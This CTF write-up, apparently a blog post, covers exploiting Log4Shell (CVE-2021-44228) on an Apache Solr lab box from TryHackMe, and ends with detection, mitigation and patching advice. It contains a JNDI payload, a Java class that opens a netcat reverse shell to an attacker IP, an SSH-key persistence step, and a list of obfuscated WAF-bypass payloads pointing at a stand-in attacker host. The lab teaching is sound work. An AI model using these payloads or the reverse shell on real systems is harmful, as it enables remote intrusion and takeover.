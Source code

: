 ```yaml
---
title: Solar, exploiting log4j [THM]
date: 2021-12-15 00:20:00 +0100
categories: [Writeups]
tags: [thm,log4j]
---
```


# Solar, exploiting log4j

Solar is a TryHackMe box designed to introduce and explore CVE-2021-44228 also called `log4shell`. The idea is to gain a better understanding on how the vulnerability work and also provide knowledge on how to detect and mitigate/patch. 

This room has been made by the great [John Hammond](https://twitter.com/_johnhammond).

## A little bit of history

On *December 9th, 2021*, the world was made aware of a new vulnerability identified as [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), affecting the Java logging package `log4j`. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers remote code trivial remote code execution on hosts engaging with software that utilizes this `log4j` version. This attack has been dubbed "Log4Shell" - John Hammond

The vulnerability has been patched in the latest version of `log4j` (2.15.0rc2) but there is still potentially millions of applications vulnerable in the wild. ([list](https://github.com/YfryTchsGD/Log4jAttackSurface))

## Reconnaissance

Let's start with our default `nmap` TCP port scan to find potentially vulnerable services.

```txt
sudo nmap -sS -T4 -p- 10.10.111.77 -vv 

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
111/tcp  open  rpcbind syn-ack ttl 63
8983/tcp open  unknown syn-ack ttl 63
```

The application is accessible through HTTP, we land on a `Solr 8.11.0` dashboard. `Apache Solr` is an open-source enterprise-search platform, written in Java ([Wikipedia](https://en.wikipedia.org/wiki/Apache_Solr))

![solr_recon](/assets/img/solar/solr_app.png)

## Discovery

The TryHackMe room make some Solr logs available for us to analyse.

In the logs, we can see requests to the path `/admin/cores` with a parameter called `param={}`\
It could potentially be some GET or POST data sent with the request that gets include in the logs.

![solr_logs](/assets/img/solar/solr_log.png)

This `param` parameter could be an entry point as the `log4j` will try to "parse" entries to enrich data, which could lead to undesirable action like execution of code.

## Proof of Concept

The basic payload syntax is `${jndi:ldap://IP}`.\
This payload use the `JNDI` ([Java Naming and Directory Interface](https://fr.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) functionnality to access external resources (and in our case a remote IP) using the `ldap` protocol.

If we were to open a listener on a port on our attacking machine and send a GET request to the path with a fake parameter containing the payload, we would see a connection back from the server.

![log4j_poc](/assets/img/solar/solr_poc.png)

This proves the `log4j` logging system query our attacking machine and is vulnerable to `CVE-2021-44228`.

## Exploitation

The problem is that our listener does not understand the `ldap` protocol, for this reason we need a **LDAP Referral Server** that will redirect the client request to a secondary HTTP server hosting the malicious file that will be ultimately executed on the target.

We can use [marshalsec](https://github.com/mbechler/marshalsec) as our LDAP Referall server. I will skip the java building step as it is not of interest here, but we should have a working LDAP server ready to run.

The next step is to create a malicious java class that will get executed on our target.

Exploit.java

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.25.40 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

This simple code is a java class running a reverse shell using `exec()` method. Finally we need to compile the code into a `.class` executable with `javac Exploit.java -source 8 -target 8`.

We have everything we need to exploit the target. Now it's time for the show !\
We host the malicious `.class` executable on our python3 HTTP server.\
We run the LDAP Referral server pointing to our python3 server and finally we open a listener on the port specified in the reverse shell.

The only thing left to do is to GET request the vulnerable server just like the PoC but with a path pointing to our `Exploit` file.

![log4j_exploit](/assets/img/solar/solr_exploitation.png)

And we got our shell back ! Let's summarize the exploitation chain.

1. Curl request to injectable parameter with payload to our LDAP controlled server
2. LDAP Referral server receives the request from Solr server and direct the connection to our second HTTP server
3. Our secondary HTTP server serve the malicious java class `Exploit.class`
4. The malicious java class is executed by the server and we receive our reverse shell in our listener.

## Persistence

As we are the user `solr`, checking our home directory reveals a `.ssh` folder. We can create a persistence by generating a temporary key pair and add our public key to the `.ssh/authorized_keys` file.

We can now properly connect to the target using SSH.

## Detection

Looking at the log inside the target, we see our injected payload.

![injected_payload](/assets/img/solar/solr_log_payload.png)

In our context, the vulnerability is easy to detect because it appears in a single parameter in a GET request and we used the default payload but in a real world environment, it could be very difficult to find, and even harder because of the massive amount of bypasses.

John Hammond then shares some links from the community that worked hard those last few days to mitigate the threat.\
Feel free to browse them.

## Bypasses

The syntax we used in our payload is the default one and it might be caught by Web Application Firewalls (WAFs).
The room shows some bypasses we can experiment with.

Here are some of them.

```txt
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

What we need to understand, is that bypasses can be of many forms because the attack targets `log4j` and payloads can also access all the "tools" `log4j` uses to do its magic.

## Mitigation

A mitigation was released soon after the vulnerability was made public, we need to add the line `SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"` in the system-wide configuration file `/etc/default/solr.in.sh`

Retrying our previous exploit now fail which is good !

![mitigation](/assets/img/solar/solr_mitigate.png)

## Patching

At the time of writing this writeup, a lot of applications are still vulnerable to `CVE-2021-44228`, please take some time to better understand the vulnerability and look out for patches from vendors as it is a critical threat affecting millions of different devices from web servers to software clients.

Finally a message from John Hammond, I think is important to share.

*Please be understanding of this frenzy. There are so many potential places that this log4j vulnerability could be present, we may never see the end of this vulnerability for a long, long time. The onus is on you, on me, on each and every one of us to raise awareness of this incident, and hold the community accountable for actively responding.  When the time comes, roll out the patches that have been made available and continue to hunt for instances of this vulnerability. It takes a village.*

## Credits

I would like to thanks the amazing work from John Hammond for creating this room and being such a great actor in the cybersecurity community. Please check out his [Youtube channel](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw) for more content and be free to complete this room as it will give you better knowledge to detect and mitigate the vulnerability.

Hope you enjoy reading ! 